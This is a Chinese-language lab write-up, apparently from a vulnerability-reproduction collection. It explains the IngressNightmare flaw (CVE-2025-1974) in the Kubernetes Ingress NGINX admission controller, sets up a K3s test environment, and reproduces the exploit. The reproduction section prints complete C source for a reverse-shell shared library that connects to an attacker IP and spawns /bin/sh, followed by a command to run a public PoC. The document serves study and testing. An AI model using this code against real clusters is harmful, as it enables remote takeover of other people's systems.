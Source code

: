 # IngressNightmare：Kubernetes Ingress 未经身份验证的远程代码执行漏洞（CVE-2025-1974）

Ingress-Nightmare 漏洞的核心问题在于 Ingress Nginx Controller 的准入控制器（Admission Controller）存在缺陷。准入控制器是 Kubernetes 的内部安全机制，用于在部署传入的入口对象之前对其进行验证。然而，该控制器无需身份验证即可通过网络访问，攻击者可以利用这一特性，向准入控制器发送恶意的 `AdmissionReview` 请求

需要特别说明的是， 如果要造成任意命令执行需要配合其他漏洞组合，例如下面的几个组合方式：

CVE-2025-1974 + CVE-2025-24514 通过 auth-url 注释注入RCE  
CVE-2025-1974 + CVE-2025-1097  通过 auth-tls-match-cn 注释注入RCE  
CVE-2025-1974 + CVE-2025-1098   通过镜像 UID 注入RCE

## 漏洞原理

攻击者通过构造恶意的 `AdmissionReview` 请求，可以注入任意的 Nginx 配置指令。这些指令会在配置验证阶段被 `nginx -t` 命令触发执行[^1]。例如，攻击者可以注入 `ssl_engine` 指令，该指令会加载指定的动态链接库。

更多细节参考：

* IngressNightmare: CVE-2025-1974 - 9.8 Critical Unauthenticated Remote Code Execution Vulnerabilities in Ingress NGINX[^2]
* Ingress-nginx CVE-2025-1974: What You Need to Know[^3]

## 漏洞环境

启动 Kubernetes 环境，这里使用轻量的 K3s 作为集群方案，借助 Docker Compose 启动：

```bash
docker compose up -d
```

稍等片刻，待环境完成初始化后，使用 docker exec 进入运行中的容器并执行初始化脚本：

```sh
$ docker ps -a
CONTAINER ID   IMAGE                 COMMAND                  CREATED         STATUS                      PORTS                                                                                          NAMES
8109c0c867d3   ingress-nginx:1.9.5   "/bin/k3s server"        8 minutes ago   Up 8 minutes                0.0.0.0:32043->32043/tcp, :::32043->32043/tcp, 0.0.0.0:32080->32080/tcp, :::32080->32080/tcp   cve-2025-1974-k3s-1

$ docker exec -it cve-2025-1974-k3s-1 sh ./exploit/init.sh
[INFO] Starting K3s server...
[INFO] Waiting for Kubernetes API to be ready...
nohup: appending output to 'nohup.out'
[INFO] Waiting for ingress-nginx controller...
deployment.apps/ingress-nginx-controller condition met
NAME                                        READY   STATUS      RESTARTS   AGE
ingress-nginx-admission-create-7bjgc        0/1     Completed   0          9m30s
ingress-nginx-admission-patch-8tlbg         0/1     Completed   1          9m30s
ingress-nginx-controller-587d8f88fc-w429f   1/1     Running     0          9m30s
```

init.sh 脚本会完成以下任务：

* 等待 Kubernetes API 就绪
* 等待 ingress-nginx 控制器启动

当脚本运行完成后， 会看到`ingress-nginx-controller` 的状态为`Running`, 此时可以直接开始漏洞验证或测试。

## 漏洞复现

我们首先需要编译一个动态链接库，而且需要和目标架构相同。动态链接库源码：

```C
  #include <unistd.h>

  #include<stdio.h>
  #include<stdlib.h>
  #include<unistd.h>
  #include<sys/socket.h>
  #include<netinet/in.h>
  #include<arpa/inet.h>


  __attribute__((constructor)) static void reverse_shell(void)
  {
      char *server_ip="xxxx";
      uint32_t server_port=7788;
      int sock = socket(AF_INET, SOCK_STREAM, 0);
      struct sockaddr_in attacker_addr = {0};
      attacker_addr.sin_family = AF_INET;
      attacker_addr.sin_port = htons(server_port);
      attacker_addr.sin_addr.s_addr = inet_addr(server_ip);
      system("touch /tmp/hacked");
      if(connect(sock, (struct sockaddr *)&attacker_addr,sizeof(attacker_addr))!=0)
          exit(0);
      dup2(sock, 0);
      dup2(sock, 1);
      dup2(sock, 2);
      char *args[] = {"/bin/sh", NULL};
      execve("/bin/sh", args, NULL);
  }
```

修改 server_ip 为你的服务器 IP ，或者进一步修改该源代码， 可以参考 [yoshino-s/CVE-2025-1974](https://github.com/yoshino-s/CVE-2025-1974/tree/main) [^4]这个 Github 仓库，或者直接使用他的环境进行编译。将编译后的 shell.so 拷贝到 ./exploit 目录下。

然后，我们在 exploit-pod 里，切到 exploit 目录， 执行利用代码。该利用代码来自于 [IngressNightmare-PoC](https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main)Github仓库[^5]。

```
cd /exploit
python3 exploit.py
```

可见， 我们成功在 ingress-nginx 的 pod 的 /tmp/ 目录成功创建了 hacked 文件

![](1.jpg)

## 参考链接

[^1]: https://github.com/kubernetes/ingress-nginx/blob/8c1ecd7655bd052a26e64d3361dede3096cd80c6/internal/ingress/controller/controller.go#L425
[^2]: https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities
[^3]: https://kubernetes.io/blog/2025/03/24/ingress-nginx-cve-2025-1974/
[^4]: https://github.com/yoshino-s/CVE-2025-1974/tree/main
[^5]: https://github.com/Clifford-prog/IngressNightmare-PoC/tree/main
